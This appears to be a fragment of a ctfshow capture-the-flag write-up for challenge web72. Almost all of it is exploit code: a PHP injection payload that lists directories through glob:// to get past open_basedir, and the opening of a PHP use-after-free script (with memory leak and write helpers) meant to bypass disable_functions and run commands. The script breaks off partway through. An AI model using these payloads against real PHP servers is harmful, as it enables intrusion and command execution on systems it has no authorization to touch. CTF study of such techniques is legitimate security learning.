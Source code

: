 
### web72

use the glob://

```
c=?><?php $a=new DirectoryIterator("glob:///*");foreach($a as $f){echo($f->__toString().' ');} exit(0);?>
```



uaf script:

```

c=function ctfshow($cmd) {
    global $abc, $helper, $backtrace;

    class Vuln {
        public $a;
        public function __destruct() {
            global $backtrace;
            unset($this->a);
            $backtrace = (new Exception)->getTrace();
            if(!isset($backtrace[1]['args'])) {
                $backtrace = debug_backtrace();
            }
        }
    }

    class Helper {
        public $a, $b, $c, $d;
    }

    function str2ptr(&$str, $p = 0, $s = 8) {
        $address = 0;
        for($j = $s-1; $j >= 0; $j--) {
            $address <<= 8;
            $address |= ord($str[$p+$j]);
        }
        return $address;
    }

    function ptr2str($ptr, $m = 8) {
        $out = "";
        for ($i=0; $i < $m; $i++) {
            $out .= sprintf("%c",($ptr & 0xff));
            $ptr >>= 8;
        }
        return $out;
    }

    function write(&$str, $p, $v, $n = 8) {
        $i = 0;
        for($i = 0; $i < $n; $i++) {
            $str[$p + $i] = sprintf("%c",($v & 0xff));
            $v >>= 8;
        }
    }

    function leak($addr, $p = 0, $s = 8) {
        global $abc, $helper;
        write($abc, 0x68, $addr + $p - 0x10);
        $leak = strlen($helper->a);
        if($s != 8) { $leak %= 2 << ($s * 8) - 1; }
        return $leak;
```